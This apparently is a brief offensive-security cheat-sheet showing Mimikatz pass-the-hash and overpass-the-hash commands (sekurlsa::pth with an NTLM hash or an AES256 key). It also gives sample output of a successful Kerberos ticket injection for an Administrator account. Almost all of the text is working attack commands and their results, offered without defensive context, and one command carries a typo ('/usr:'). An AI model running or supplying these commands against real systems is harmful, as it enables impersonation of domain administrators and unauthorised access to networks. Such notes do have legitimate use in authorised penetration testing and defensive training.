

Mimikatz pth (pass-the-hash)
#privilege::debug
#sekurlsa::pth /user:Administrator /domain:domain.local /ntlm:<hash>

You can use nearly any key to obtain a TGT
#privilege::debug
#sekurlsa::pth /usr:Administrator /domain:domain.local /aes256
mimikatz # sekurlsa::pth /user:Administrateur /domain:chocolate.local /aes256:b7268361386090314acce8d9367e55f55865e7ef8e
670fbe4262d6c94098a9e9
user : Administrateur
domain : chocolate.local
program : cmd.exe
AES256 : b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9
| PID 1652
| TID 548
| LUID 0 ; 411133 (00000000:000645fd)
\_ msv1_0 - data copy @ 0000000001675F70 : OK !
\_ kerberos - data copy @ 000000000161E118
\_ aes256_hmac OK
\_ aes128_hmac -> null
\_ rc4_hmac_nt -> null
\_ rc4_hmac_old -> null
\_ rc4_md4 -> null
\_ rc4_hmac_nt_exp -> null
\_ rc4_hmac_old_exp -> null
\_ *Password replace -> null
This time the NTLM protocol is NOT used, only Kerberos with AES256